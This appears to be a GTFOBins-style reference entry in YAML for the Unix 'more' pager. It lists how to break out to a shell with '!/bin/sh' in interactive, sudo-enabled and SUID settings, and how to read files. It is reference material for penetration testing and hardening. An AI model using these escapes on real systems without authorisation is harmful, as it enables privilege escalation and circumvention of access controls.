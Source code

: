 ```yaml
---
functions:
  execute-interactive:
    - code: |
        TERM= more /etc/profile
        !/bin/sh
  sudo-enabled:
    - code: |
        TERM= sudo -E more /etc/profile
        !/bin/sh
  suid-limited:
    - code: |
        TERM= ./more /etc/profile
        !/bin/sh
  file-read:
    - code: |
        more file_to_read
---
```

